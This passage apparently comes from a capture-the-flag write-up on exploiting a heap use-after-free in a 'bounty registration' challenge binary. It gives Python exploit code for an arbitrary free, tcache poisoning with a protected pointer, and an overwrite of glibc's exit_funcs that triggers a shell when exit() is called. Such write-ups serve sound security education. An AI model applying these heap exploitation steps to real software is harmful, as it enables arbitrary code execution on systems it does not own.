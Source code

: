 Now, using the `UAF` vulnerability again, we get an arbitrary free on the fake chunk.

```python
idx = alloc(26)
alloc(100)
delete(idx)
delete(idx+1)
alloc(26, data=p64(free_ptr)+p64(0)+p64(8)+b'\x01\x01')
delete(idx)
```

On our next 0x58 request, we will get back our original chunk, and overwrite our fake chunks freelist pointers to get the arbitrary write into `exit_funcs`. Thing is, for `malloc()` to return a valid address, it needs to be 16-byte aligned, and `exit_funcs` isn't. So we will be allocating 8 bytes before `exit_funcs` and use some padding bytes. Do not forget to `protect` the pointer.

```python
# overflow into freed chunk
alloc(0x58, data=p64(0)*3+p64(0x31)+p64((__exit_funcs-8)^(heap_base>>12))+b'A'*30)
```

Let's take a look with `gdb`.

<img src="./assets/gdb3.png" align="center" />

Sure enough, `exit_funcs-8` is on the `0x30 tcache freelist`. Let's overwrite `exit_funcs` with our fake `exit_function_list`.

```python
idx = alloc(0x28, data=p64(0)+p64(exit_shell_ptr))
```

There is no exit option in the menu. Scanning through the source, we see the only option to call `exit()` is by using up all the available space in the global array, in which case we get the message "Maximum number of bounty registrations reached. Shutting down..." and `exit(-1)` is called. Let's do that.
